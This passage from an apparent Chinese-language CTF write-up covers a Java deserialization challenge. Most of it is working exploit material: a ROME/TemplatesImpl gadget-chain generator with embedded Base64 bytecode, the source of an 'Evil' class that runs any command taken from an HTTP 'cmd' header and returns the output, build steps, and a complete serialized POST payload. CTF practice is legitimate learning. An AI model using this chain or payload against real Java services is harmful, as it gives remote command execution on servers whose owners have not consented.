        byte[][] bytecodes = new byte[][]{Base64.getDecoder().decode("yv66vgAAADQAoQoALwBDCgBEAEUKAEQARggARwoASABJCABKBwBLCgAHAEwHAE0KAE4ATwgAUAgAUQgAUggAUwgAVAoABwBVCABWCABXBwBYCgBOAFkIAFoIAFsKAFwAXQoAEwBeCABfCgATAGAIAGEIAGIKABMAYwgAZAgAZQgAZggAZwoACQBoCABpBwBqCgBrAGwKAGsAbQoAbgBvCgAkAHAIAHEKACQAcgoAJABzCAB0CAB1BwB2BwB3AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAHgBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAGPGluaXQ+AQADKClWAQANU3RhY2tNYXBUYWJsZQcAdgcASwcAeQcATQcAWAcAegcAewEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMADcAOAcAfAwAfQB+DAB/AIABADxvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuUmVxdWVzdENvbnRleHRIb2xkZXIHAIEMAIIAgwEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzAQAPamF2YS9sYW5nL0NsYXNzDACEAIUBABBqYXZhL2xhbmcvT2JqZWN0BwB5DACGAIcBAEBvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuU2VydmxldFJlcXVlc3RBdHRyaWJ1dGVzAQALZ2V0UmVzcG9uc2UBAApnZXRSZXF1ZXN0AQAdamF2YXguc2VydmxldC5TZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIMAIgAhQEAJWphdmF4LnNlcnZsZXQuaHR0cC5IdHRwU2VydmxldFJlcXVlc3QBAAlnZXRIZWFkZXIBABBqYXZhL2xhbmcvU3RyaW5nDACJAIoBAANjbWQBAAdvcy5uYW1lBwCLDACMAI0MAI4AjwEABndpbmRvdwwAkACRAQADR0JLAQAFVVRGLTgMAJIAjwEAA1dJTgEAAi9jAQAHL2Jpbi9zaAEAAi1jDACTAJQBAAdwcmludGxuAQARamF2YS91dGlsL1NjYW5uZXIHAJUMAJYAlwwAmACZBwCaDACbAJwMADcAnQEAAlxBDACeAJ8MAKAAjwEABWZsdXNoAQAFY2xvc2UBAARFdmlsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEAE1tMamF2YS9sYW5nL1N0cmluZzsBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIBAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQAJZ2V0TWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAEWdldERlY2xhcmVkTWV0aG9kAQANc2V0QWNjZXNzaWJsZQEABChaKVYBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEAC3RvVXBwZXJDYXNlAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBACooTGphdmEvaW8vSW5wdXRTdHJlYW07TGphdmEvbGFuZy9TdHJpbmc7KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAARuZXh0ACEALgAvAAAAAAADAAEAMAAxAAIAMgAAABkAAAADAAAAAbEAAAABADMAAAAGAAEAAAASADQAAAAEAAEANQABADAANgACADIAAAAZAAAABAAAAAGxAAAAAQAzAAAABgABAAAAFwA0AAAABAABADUAAQA3ADgAAgAyAAACOQAJAA0AAAF7KrcAAbgAArYAAxIEtgAFTCsSBgO9AAe2AAhNLAEDvQAJtgAKTrgAArYAAxILtgAFTCsSDAO9AAe2AAhNKxINA70AB7YACDoELC0DvQAJtgAKOgUZBC0DvQAJtgAKOga4AAK2AAMSDrYABRIPA70AB7YAEDoHuAACtgADEhG2AAUSEgS9AAdZAxITU7YAEDoIGQgEtgAUGQcEtgAUGQcZBQO9AAm2AAo6CRkIGQYEvQAJWQMSFVO2AArAABM6Cga9ABM6CxIWuAAXtgAYEhm2ABqZAAgSG6cABRIcOgwSFrgAF7YAHRIetgAamQASGQsDEhVTGQsEEh9TpwAPGQsDEiBTGQsEEiFTGQsFGQpTGQm2ACISIwS9AAdZAxITU7YAEBkJBL0ACVkDuwAkWbgAJRkLtgAmtgAnGQy3ACgSKbYAKrYAK1O2AApXGQm2ACISLAO9AAe2ABAZCQO9AAm2AApXGQm2ACISLQO9AAe2ABAZCQO9AAm2AApXsQAAAAIAMwAAAG4AGwAAABgABAAZABAAGgAbABsAJQAcADEAHQA8AB4ASAAfAFMAIABfACEAdQAiAJAAIwCWACQAnAAlAKkAJgC+ACcAxAAoAN0AKQDtACoA8wArAPwALQECAC4BCAAwAQ4AMQFKADIBYgAzAXoANAA5AAAAOAAE/wDZAAwHADoHADsHADwHAD0HADwHAD0HAD0HADwHADwHAD0HAD4HAD8AAEEHAD78ACAHAD4LADQAAAAEAAEAQAABAEEAAAACAEI=")};


        // 实例化类并设置属性
        TemplatesImpl templatesimpl = new TemplatesImpl();
        Field fieldByteCodes = templatesimpl.getClass().getDeclaredField("_bytecodes");
        fieldByteCodes.setAccessible(true);
        fieldByteCodes.set(templatesimpl, bytecodes);

        Field fieldName = templatesimpl.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(templatesimpl, "test");

        Field fieldTfactory = templatesimpl.getClass().getDeclaredField("_tfactory");
        fieldTfactory.setAccessible(true);
        fieldTfactory.set(templatesimpl, Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl").newInstance());


        ObjectBean objectBean1 = new ObjectBean(Templates.class, templatesimpl);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(byteArrayOutputStream);
        out.writeObject(objectBean1);
        byte[] sss = byteArrayOutputStream.toByteArray();
        out.close();
        String exp = Base64.getEncoder().encodeToString(sss);
        System.out.println(exp.replace("+","%2b"));


    }
}
```

这里要写一个Evil.class

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.net.InetAddress;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectOutputStream;
import java.io.*;
import java.lang.reflect.Method;
import java.util.Scanner;
public class Evil extends AbstractTranslet
{
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public Evil() throws Exception{
        Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
        Method m = c.getMethod("getRequestAttributes");
        Object o = m.invoke(null);
        c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
        m = c.getMethod("getResponse");
        Method m1 = c.getMethod("getRequest");
        Object resp = m.invoke(o);
        Object req = m1.invoke(o); // HttpServletRequest
        Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
        Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
        getHeader.setAccessible(true);
        getWriter.setAccessible(true);
        Object writer = getWriter.invoke(resp);
        String cmd = (String)getHeader.invoke(req, "cmd");
        String[] commands = new String[3];
        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
        if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
            commands[0] = "cmd";
            commands[1] = "/c";
        } else {
            commands[0] = "/bin/sh";
            commands[1] = "-c";
        }
        commands[2] = cmd;
        writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
        writer.getClass().getDeclaredMethod("flush").invoke(writer);
        writer.getClass().getDeclaredMethod("close").invoke(writer);
    }
}
```

然后javac Evil.java编译生成一个class文件,放在kali里面,`cat Evil.class|base64 -w 0`,生成一段base64编码

把生成的base64编码放在exp里面的

`byte[][] bytecodes = new byte[][]{Base64.getDecoder().decode("")`，运行exp生成payload

最后发包

```
POST
ctf=ctf=rO0ABXNyAChjb20uc3VuLnN5bmRpY2F0aW9uLmZlZWQuaW1wbC5PYmplY3RCZWFugpkH3nYElEoCAANMAA5fY2xvbmVhYmxlQmVhbnQALUxjb20vc3VuL3N5bmRpY2F0aW9uL2ZlZWQvaW1wbC9DbG9uZWFibGVCZWFuO0wAC19lcXVhbHNCZWFudAAqTGNvbS9zdW4vc3luZGljYXRpb24vZmVlZC9pbXBsL0VxdWFsc0JlYW47TAANX3RvU3RyaW5nQmVhbnQALExjb20vc3VuL3N5bmRpY2F0aW9uL2ZlZWQvaW1wbC9Ub1N0cmluZ0JlYW47eHBzcgArY29tLnN1bi5zeW5kaWNhdGlvbi5mZWVkLmltcGwuQ2xvbmVhYmxlQmVhbt1hu8UzT2t3AgACTAARX2lnbm9yZVByb3BlcnRpZXN0AA9MamF2YS91dGlsL1NldDtMAARfb2JqdAASTGphdmEvbGFuZy9PYmplY3Q7eHBzcgAeamF2YS51dGlsLkNvbGxlY3Rpb25zJEVtcHR5U2V0FfVyHbQDyygCAAB4cHNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2xhbmcvQ2xhc3M7TAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAABdXIAAltCrPMX%2bAYIVOACAAB4cAAAC3vK/rq%2bAAAANAChCgAvAEMKAEQARQoARABGCABHCgBIAEkIAEoHAEsKAAcATAcATQoATgBPCABQCABRCABSCABTCABUCgAHAFUIAFYIAFcHAFgKAE4AWQgAWggAWwoAXABdCgATAF4IAF8KABMAYAgAYQgAYgoAEwBjCABkCABlCABmCABnCgAJAGgIAGkHAGoKAGsAbAoAawBtCgBuAG8KACQAcAgAcQoAJAByCgAkAHMIAHQIAHUHAHYHAHcBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAeAEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAA1TdGFja01hcFRhYmxlBwB2BwBLBwB5BwBNBwBYBwB6BwB7AQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwANwA4BwB8DAB9AH4MAH8AgAEAPG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5SZXF1ZXN0Q29udGV4dEhvbGRlcgcAgQwAggCDAQAUZ2V0UmVxdWVzdEF0dHJpYnV0ZXMBAA9qYXZhL2xhbmcvQ2xhc3MMAIQAhQEAEGphdmEvbGFuZy9PYmplY3QHAHkMAIYAhwEAQG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5TZXJ2bGV0UmVxdWVzdEF0dHJpYnV0ZXMBAAtnZXRSZXNwb25zZQEACmdldFJlcXVlc3QBAB1qYXZheC5zZXJ2bGV0LlNlcnZsZXRSZXNwb25zZQEACWdldFdyaXRlcgwAiACFAQAlamF2YXguc2VydmxldC5odHRwLkh0dHBTZXJ2bGV0UmVxdWVzdAEACWdldEhlYWRlcgEAEGphdmEvbGFuZy9TdHJpbmcMAIkAigEAA2NtZAEAB29zLm5hbWUHAIsMAIwAjQwAjgCPAQAGd2luZG93DACQAJEBAANHQksBAAVVVEYtOAwAkgCPAQADV0lOAQACL2MBAAcvYmluL3NoAQACLWMMAJMAlAEAB3ByaW50bG4BABFqYXZhL3V0aWwvU2Nhbm5lcgcAlQwAlgCXDACYAJkHAJoMAJsAnAwANwCdAQACXEEMAJ4AnwwAoACPAQAFZmx1c2gBAAVjbG9zZQEABEV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAE2phdmEvbGFuZy9FeGNlcHRpb24BABBqYXZhL2xhbmcvVGhyZWFkAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQARZ2V0RGVjbGFyZWRNZXRob2QBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQALdG9VcHBlckNhc2UBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAKihMamF2YS9pby9JbnB1dFN0cmVhbTtMamF2YS9sYW5nL1N0cmluZzspVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEABG5leHQAIQAuAC8AAAAAAAMAAQAwADEAAgAyAAAAGQAAAAMAAAABsQAAAAEAMwAAAAYAAQAAABIANAAAAAQAAQA1AAEAMAA2AAIAMgAAABkAAAAEAAAAAbEAAAABADMAAAAGAAEAAAAXADQAAAAEAAEANQABADcAOAACADIAAAI5AAkADQAAAXsqtwABuAACtgADEgS2AAVMKxIGA70AB7YACE0sAQO9AAm2AApOuAACtgADEgu2AAVMKxIMA70AB7YACE0rEg0DvQAHtgAIOgQsLQO9AAm2AAo6BRkELQO9AAm2AAo6BrgAArYAAxIOtgAFEg8DvQAHtgAQOge4AAK2AAMSEbYABRISBL0AB1kDEhNTtgAQOggZCAS2ABQZBwS2ABQZBxkFA70ACbYACjoJGQgZBgS9AAlZAxIVU7YACsAAEzoKBr0AEzoLEha4ABe2ABgSGbYAGpkACBIbpwAFEhw6DBIWuAAXtgAdEh62ABqZABIZCwMSFVMZCwQSH1OnAA8ZCwMSIFMZCwQSIVMZCwUZClMZCbYAIhIjBL0AB1kDEhNTtgAQGQkEvQAJWQO7ACRZuAAlGQu2ACa2ACcZDLcAKBIptgAqtgArU7YAClcZCbYAIhIsA70AB7YAEBkJA70ACbYAClcZCbYAIhItA70AB7YAEBkJA70ACbYAClexAAAAAgAzAAAAbgAbAAAAGAAEABkAEAAaABsAGwAlABwAMQAdADwAHgBIAB8AUwAgAF8AIQB1ACIAkAAjAJYAJACcACUAqQAmAL4AJwDEACgA3QApAO0AKgDzACsA/AAtAQIALgEIADABDgAxAUoAMgFiADMBegA0ADkAAAA4AAT/ANkADAcAOgcAOwcAPAcAPQcAPAcAPQcAPQcAPAcAPAcAPQcAPgcAPwAAQQcAPvwAIAcAPgsANAAAAAQAAQBAAAEAQQAAAAIAQnB0AAR0ZXN0cHcBAHhzcgAoY29tLnN1bi5zeW5kaWNhdGlvbi5mZWVkLmltcGwuRXF1YWxzQmVhbvWKGLvl9hgRAgACTAAKX2JlYW5DbGFzc3QAEUxqYXZhL2xhbmcvQ2xhc3M7TAAEX29ianEAfgAHeHB2cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhwcQB%2bABBzcgAqY29tLnN1bi5zeW5kaWNhdGlvbi5mZWVkLmltcGwuVG9TdHJpbmdCZWFuCfWOSg8j7jECAAJMAApfYmVhbkNsYXNzcQB%2bABdMAARfb2JqcQB%2bAAd4cHEAfgAacQB%2bABA=
```

添加header






才开始学java,所以最后一道java题并没有去跟链子,直接拿payload打的,想先看看java的题怎么打,后面看到还是要去跟链子的


参考链接

https://blog.csdn.net/rfrder/article/details/121203831


